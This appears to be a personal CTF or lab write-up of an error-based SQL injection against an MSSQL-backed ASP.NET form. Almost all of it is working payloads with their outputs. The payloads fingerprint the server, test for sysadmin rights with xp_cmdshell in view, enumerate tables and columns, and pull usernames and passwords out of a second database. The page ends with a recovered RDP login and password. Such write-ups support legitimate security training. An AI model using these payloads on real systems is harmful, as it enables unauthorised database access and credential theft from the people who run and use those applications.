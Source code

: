 ```yaml
---
description: MSSQL
---
```


# ERROR BASED

There is a form.

SQL Injection.

```
' - Error
'' - Error disappears
```

https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

https://portswigger.net/web-security/sql-injection/cheat-sheet

It should be MSSQL. Because of ASP.NET web service. Try that.

Specify String Concatenation

```
'+(SELECT '')+'
```

You can also exploit this behavior to test conditions.

```
'+(SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END)+'
```

We can see error page. So we can try using transformation errors than time based errors.

[https://ozguralp.medium.com/turning-blind-error-based-sql-injection-into-an-exploitable-boolean-one-85d6be3ca23b](https://ozguralp.medium.com/turning-blind-error-based-sql-injection-into-an-exploitable-boolean-one-85d6be3ca23b)

```
'+convert(id,db_name())+'  ERROR
'+convert(char,db_name())+'  OK

'+convert(char,(SELECT IIF(SUBSTRING(DB_NAME(),1,1)='A',3,@@VERSION)))+'
```

This query was working as this:&#x20;

* Sub-stringing the database name starting from 1st character within 1 length and comparing within ‘A’ character whether it equals or not.
* If that character equals to ‘A’, then it returns 3 as integer.
* Converting ‘3’ as integer to char is successful and returns without any errors, meaning that the query is true.
* If the character does not equal to ‘A’, then it returns @@VERSION as T-SQL functionality.
* Converting @@VERSION result to char is not successful and returns error (Error.aspx page), meaning that the query is false!

```
'+convert(char,(SELECT IIF(SUBSTRING(HOST_NAME(),1,1)='A',3,@@VERSION)))+'

Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64)
Aug 22 2017 17:04:49
Copyright (C) 2017 Microsoft Corporation
Express Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

```
%2bconvert(char,(SELECT IIF(SUBSTRING((***query_here***),1,1)='d',3,@@VERSION)))%2b

'+convert(char,(SELECT IIF(SUBSTRING((select top 1 table_name from INFORMATION_SCHEMA.tables),1,1)='A',3,@@VERSION)))+'
```

https://www.exploit-db.com/papers/12975

```
'+convert(int,(user_name()))+' - appuser

'+(SELECT CASE WHEN (is_srvrolemember('sysadmin', 'appuser')=0) THEN 1/0 ELSE NULL END)+' - Nope 

'+(SELECT CASE WHEN (is_srvrolemember('sysadmin')=1) THEN 1/0 ELSE NULL END)+' - True
```

:( - If it is equal to 1, we can execute xp\_cmdshell command. So we can not execute the command anyways.

https://infosecwriteups.com/exploiting-error-based-sql-injections-bypassing-restrictions-ed099623cd94

```
'+(convert(int,(select top 1 table_name from information_schema.tables)))+'
```

The above query will retrieve the top table\_name from the database.

Conversion failed when converting the nvarchar value 'users' to data type int.

Got a good table if not,

```
convert(int,(select top 1 table_name from information_schema.tables where table_name not in ('Download_Document','login_audit')))  
- Keep going find a proper table name

'+convert(int,(select top 1 table_name from information_schema.tables where table_name not in ('users')))+' 
- There is no other
```

```
'+convert(int,(select top 1 column_name from information_schema.columns where table_name='users'))+'

id

'+convert(int,(select top 1 column_name from information_schema.columns where table_name not in ('id')))+'

email
username

'+convert(int,(select top 1 column_name from information_schema.columns where column_name not in ('id','email','username')))+'

'+convert(int,(select top 1 username from users where username not in ('test','test2'')))+'

test, test2

'+convert(int,(select top 1 email from users where email not in ('test@test.local','test2@test.local')))+'
```

We can not go further with these.

https://github.com/shauntdergrigorian/CTF-Notes

```
'+convert(int,(SELECT top 1 DB_NAME(6)))+'

archive

'+convert(int,(SELECT top 1 DB_NAME(6)))+'

Getting other db - DB_NAME(i) 0<i<7(To get no error)

'+convert(int,(Select top 1 name from archive..syscolumns))+'

'+convert(int,(Select top 1 name from archive..syscolumns where name 
not in ('alogin','id','psw')))+'

'+convert(int,(SELECT top 1 alogin FROM archive..pmanager where alogin 
not in ('REDACTED', 'REDACTED','REDACTED','carl')))+'

'+convert(int,(SELECT top 1 psw FROM archive..pmanager where psw not in 
('REDACTED','REDACTED',
'REDACTED','REDACTED')))+'

'+convert(int,(select top 1 column_name from archive..pmanager.alogin))+'

carl: passpass123 - RDP Credential
```
